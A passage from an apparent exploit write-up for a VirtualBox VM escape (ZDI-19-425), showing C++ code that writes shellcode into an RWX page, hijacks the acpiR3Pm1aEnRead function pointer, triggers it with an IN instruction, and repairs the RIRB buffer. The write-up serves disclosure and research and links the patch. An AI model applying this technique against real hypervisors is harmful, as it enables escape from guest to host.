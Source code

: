 Then we use arbitrary write primitive to write our shellcode to this buffer:

~~~c++
if (!arbitrary_write(RWX_page_addr, shellcode_physic))
{
    DbgPrint("[-] WRITE SHELLCODE FAILED: [0x%llx]\n", RWX_page_addr);
    return false;
}
~~~

Because when we use the arbitrary read primitive, we have overwritten the RIRB buffer **pu64RirbBuf** , so after the execution, we should replace the buffer with a valid heap chunk so the virtual machine can continue to use the audio features. Our shellcode will spawn a calculator process and return a newly allocated heap chunk to replace the overwritten RIRB.

The remaining work is quite simple, find a function pointer in those device object and replace with the RWX buffer. To do this, I choose to overwrite the **acpiR3Pm1aEnRead** function pointer with the RWX page, then use the **IN** instruction to trigger the function call, use the return value to replace the overwritten RIRB. The virtual machine can run normally from now.

~~~c++
eeprom_relative_write_qword(eeprom_offset_acpiR3Pm1aEnRead, RWX_page_addr);                 // REPLACE acpiR3Pm1aEnRead() FUNCTION POINTER BY SHELLCODE ADDRESS
uint64_t allocated_buff = ASMInU32(0x4002);                                                 // CALL acpiR3Pm1aEnRead(), SHELLCODE WILL SPAWN A CALCULATOR AND ALLOC A VALID HEAP CHUNK TO REPLACE RIRB                            
DbgPrint("[+] BUFF ALLOCATED BY SHELLCODE: 0x%llx\n", allocated_buff);
eeprom_relative_write_qword(eeprom_offset_acpiR3Pm1aEnRead, acpiR3Pm1aEnRead_funcptr);      // RESTORE acpiR3Pm1aEnRead() FUNCTION POINTER
eeprom_relative_write_qword(eeprom_offset_pu64RirbBuf, allocated_buff);                     // RESTORE RIRB WITH THE ALLOCATED BUFF
~~~

#### Advisory

- <https://www.zerodayinitiative.com/advisories/ZDI-19-425/>

#### The patch
- <https://github.com/mdaniel/virtualbox-org-svn-vbox-trunk/commit/1a4fb3c4ebb1de69525dcb20ded0d078eb97f028>
